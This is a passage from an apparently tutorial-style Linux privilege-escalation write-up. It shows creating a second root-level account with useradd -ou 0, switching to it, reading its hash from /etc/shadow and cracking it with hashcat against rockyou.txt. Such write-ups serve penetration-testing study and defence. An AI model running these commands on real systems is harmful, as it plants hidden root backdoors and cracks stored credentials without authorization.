 I add  user and set password using the commands below:
```bash
useradd -ou 0 -g 0 hacker-jadu
passwd hacker-jadu
```

![](https://i.imgur.com/BqerUVn.png)



  

Now I can switch to user **hacker-jadu** using `su hacker-jadu`:


![](https://i.imgur.com/angpxK5.png)



### Crack /etc/shadow

This method is not very recommended since you don't know how strict password policy is for your target environment.

Taking a look at **/etc/shadow** file, I can see hashed password for the previous set user **hacker-jadu**:

![](https://i.imgur.com/V5dG9C4.png)


Using hashcat, I can crack this hash which will reveal password: 

`hashcat -m 1800 hash rockyou.txt`

![](https://i.imgur.com/vf6tTDH.png)






## References

- https://fieldraccoon.github.io/posts/Linuxprivesc/